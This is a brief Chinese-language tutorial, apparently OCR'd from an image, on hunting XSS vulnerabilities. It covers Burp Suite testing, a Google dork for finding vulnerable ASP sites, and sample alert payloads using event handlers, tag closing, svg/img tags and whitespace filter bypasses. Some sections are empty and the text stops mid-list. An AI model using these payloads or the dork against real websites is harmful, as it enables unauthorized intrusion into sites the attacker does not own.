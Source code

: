   设置独一无二字符串提交，在响应中寻找

   输入的内容得到输出，可能存在xss漏洞

   首先判断，是否过滤了 < , > , / 等符号，如果都没有过滤，一般可以直接XSS了

**Burpsuite测试XSS**

   使用Burpsuite截取HTTP请求，修改提交参数。

**HTML事件触发XSS**

   若双引号、空格被去掉，无法弹窗

   若直接把输入的payload进行输出，但经过转义或者过滤，无法弹窗

   闭合input, 利用外部标签触发Xss

   若过滤了" 、<>，无法弹窗

**XSS漏洞挖掘技巧**

   利用谷歌搜索XSS漏洞：

​     inurl:'Product.asp?BigClassName

​     地址中存在百分号的URL和汉字的URL中大部分都会存在XSS漏洞。

1.利用**html事件**构造payload     "onmouseover="alert(document.domain)"  鼠标移动过去触发

2.闭合html**标签**构造payload

   </option><script>alert(document.domain)</script>

  </b><script> alert(document.domain); </script>

3.利用**html加载媒体**构造payload

​     svg     "><svg onload=alert(document.domain)> %0a   加载svg时触发对应事件

​     img     "><img src =1 onerror=alert(1)>

4.利用**html属性**构造payload

​     

XSS Payload长度计算

   使用Python内置函数len(字符串)计算对应的字节数。

5.利用**其他字符**绕过

   **空格/回车/Tab**

   JS自身的性质：Javascript通常以分号结尾，如果解析引擎能确定一个语句时完整的，且行尾有换行符，则分号可省略而如果不是完整的语句，javascript则会继续处理，直到语句完整结束或分号。

​     111 onmouseover=alert(document.domain);

​        <img src= "java　　script:alert(‘xss‘);" width=100>

   用于绕过替换script和on事件的XSS

   

   **双写绕过**
